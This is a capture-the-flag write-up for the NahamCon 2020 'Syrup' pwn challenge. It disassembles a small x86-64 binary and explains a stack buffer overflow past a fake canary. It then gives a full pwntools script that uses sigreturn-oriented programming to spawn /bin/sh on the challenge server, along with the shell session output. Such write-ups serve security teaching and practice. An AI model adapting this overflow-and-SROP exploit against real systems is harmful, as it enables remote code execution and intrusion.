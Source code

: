 # NahamCon CTF 2020

## Syrup

> 100
>
> Can you pwn me? 
>
> Connect here:</br>
> `nc jh2i.com 50036`</br>
>
> [`syrup`](syrup)

Tags: _pwn_ _x86-64_ _srop_ _bof_ _syscall_


## Summary

The title _Syrup_ is a pretty strong hint that this is an SROP challenge (that completely escaped me).


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations in place.  However, with no libc and a small statically linked assembly binary, there's not a lot to work with ROP-wise.

    
### <strike>Decompile</strike> Disassemble with Ghidra 

There are four functions of interest:

```
                     entry
00401082 55              PUSH       RBP
00401083 48 89 e5        MOV        RBP,RSP
00401086 b8 01 00        MOV        EAX,0x1
         00 00
0040108b bf 01 00        MOV        EDI,0x1
         00 00
00401090 48 be 00        MOV        RSI=>msg,msg = "Can you pwn me?\n"
         20 40 00
         00 00 00 00
0040109a ba 11 00        MOV        EDX,0x11
         00 00
0040109f 0f 05           SYSCALL
004010a1 e8 9c ff        CALL       fn1
         ff ff
004010a6 e9 68 ff        JMP        nope
         ff ff
```

`entry` just prints `Can you pwn me?` using the `write` system call, then calls `fn1` before jumping to `nope`.

```
                     nope
00401013 b8 01 00        MOV        EAX,0x1
         00 00
00401018 bf 01 00        MOV        EDI,0x1
         00 00
0040101d 48 be 11        MOV        RSI,fail = "Nope.\n"
         20 40 00
         00 00 00 00
00401027 ba 07 00        MOV        EDX,0x7
         00 00
0040102c 0f 05           SYSCALL
0040102e b8 3c 00        MOV        EAX,0x3c
         00 00
00401033 bf 00 00        MOV        EDI,0x0
         00 00
00401038 0f 05           SYSCALL
0040103a 2f              ??         2Fh    /
0040103b 62              ??         62h    b
0040103c 69              ??         69h    i
0040103d 6e              ??         6Eh    n
0040103e 2f              ??         2Fh    /
0040103f 73              ??         73h    s
00401040 68              ??         68h    h
00401041 00              ??         00h
```

`nope` just emits `Nope` and then exits using the `exit` syscall.

However, there's the string `/bin/sh\x00`.  Probably something we'll need.

```
                     fn1
00401042 55              PUSH       RBP
00401043 48 89 e5        MOV        RBP,RSP
00401046 b8 ad de        MOV        EAX,0xdead
         00 00
0040104b 48 35 ef        XOR        RAX,0xbeef
         be 00 00
00401051 50              PUSH       RAX
00401052 48 83 ed 08     SUB        RBP,0x8
00401056 48 81 ed        SUB        RBP,0x400
         00 04 00 00
0040105d b8 00 00        MOV        EAX,0x0
         00 00
00401062 bf 00 00        MOV        EDI,0x0
         00 00
00401067 48 89 ee        MOV        RSI,RBP
0040106a ba 00 08        MOV        EDX,0x800
         00 00
0040106f 0f 05           SYSCALL
00401071 58              POP        RAX
00401072 48 35 ef        XOR        RAX,0xbeef
         be 00 00
00401078 48 3d ad        CMP        RAX,0xdead
         de 00 00
0040107e 75 93           JNZ        nope
00401080 5d              POP        RBP
00401081 c3              RET
```

`fn1` puts `0xdead ^ 0xbeef` on the stack, allocates `0x400` bytes, then calls `read` to _read_ in up to `0x800` bytes from `stdin`.  This is the vulnerability.  However there's the "canary" check, and if that fails, then `nope`.  Otherwise it returns to `entry` and jumps to `nope`.

Clearly we have to take control of RIP with this buffer overflow.

```
                     fn2
00401000 55              PUSH       RBP
00401001 48 89 e5        MOV        RBP,RSP
00401004 58              POP        RAX
00401005 48 bf 11        MOV        RDI,fail = "Nope.\n"
         20 40 00
         00 00 00 00
0040100f 0f 05           SYSCALL
00401011 5d              POP        RBP
00401012 c3              RET
```

`fn2` has no purpose other than to help us out.  It'll pop RAX and `syscall`.  With ROP, setting RAX and _returning_ to `POP RAX` to then get any syscall we want is easy enough, however, the challenge is setting all the other registers.

[Sigreturn Oriented Programming (SROP)](https://docs.pwntools.com/en/stable/rop/srop.html) solves that problem.

> _**sigreturn**() exists only to allow the implementation of signal handlers.  It should **never** be called directly. -- man 2 sigreturn_

lol


## Exploit

```
#!/usr/bin/python3

from pwn import *

binary = ELF('./syrup')
context.update(arch='amd64',os='linux')

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = next(binary.search(b'/bin/sh'))
frame.rsi = 0
frame.rdx = 0
frame.rip = next(binary.search(asm('syscall')))

payload  = 0x400 * b'A'
payload += p64(0xdead ^ 0xbeef)
```

Setup the stack frame to call `execve(/bin/sh)`.  The `0x400` + the "canary" payload gets to the saved base pointer.

There are at least two options (_clever_ and _not to clever_) to call `sigreturn`.

Clever:

```
payload += p64(constants.SYS_rt_sigreturn)
payload += p64(binary.symbols['fn2'])
```

The clever way puts the `rt_sigreturn` syscall number in RBP.  Then overwrites the return address with the address of `fn2`.  `fn1` before `ret` will pop RBP, then `fn2` will push RDB, then pop RAX before the `syscall`.

> They really thought of everything. 

Not so clever:

```
payload += p64(0x0)
payload += p64(0x00401004) # pop rax
payload += p64(constants.SYS_rt_sigreturn)
```

The other option is to just write anything to the saved base pointer in the stack, and then have the return address be the address of the `POP RAX` from `fn2`, then the syscall number.

In either case the generated stack frame needs to follow the overwritten return address:

```
payload += bytes(frame)
```

Finally:

```
#p = process(binary.path)
p = remote('jh2i.com', 50036)

p.recvuntil('Can you pwn me?')
p.sendline(payload)
p.interactive()
```

Just send it and get a shell.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/nahamconctf2020/syrup/syrup'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to jh2i.com on port 50036: Done
[*] Switching to interactive mode

\x00$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ ls
flag.txt
syrup
$ cat flag.txt
flag{Sr0ppin_t0_v1ct0Ry}
```

